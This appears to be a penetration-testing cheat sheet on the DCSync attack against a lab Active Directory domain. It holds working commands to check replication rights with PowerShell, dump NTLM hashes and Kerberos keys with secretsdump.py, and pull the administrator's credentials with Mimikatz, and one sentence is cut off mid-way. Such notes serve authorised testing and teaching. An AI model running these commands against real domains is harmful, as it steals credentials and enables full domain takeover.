 ### Using Get-ObjectAcl to Check adunn's Replication Rights
```
PS > $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS > Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```bash
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

# NTLM authentication
$ secretsdump.py -outputfile inlanefreight_hashes <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> 

# Hash authentication
$ secretsdump.py -outputfile inlanefreight_hashes -hash <DOMAIN>/<USER>@<DC_IP> 

# Kerberos authentication
$ secretsdump.py -outputfile inlanefreight_hashes -no-pass -k <DOMAIN>/<USER>@<DC_IP> 
```
We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The -user-status is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:

If we check the files created using the -just-dc flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

### Using runas.exe
```
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz
```
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

* * *

# Domain Admin
Check [Dump NTDS.dit](#dump-ntdsdit)
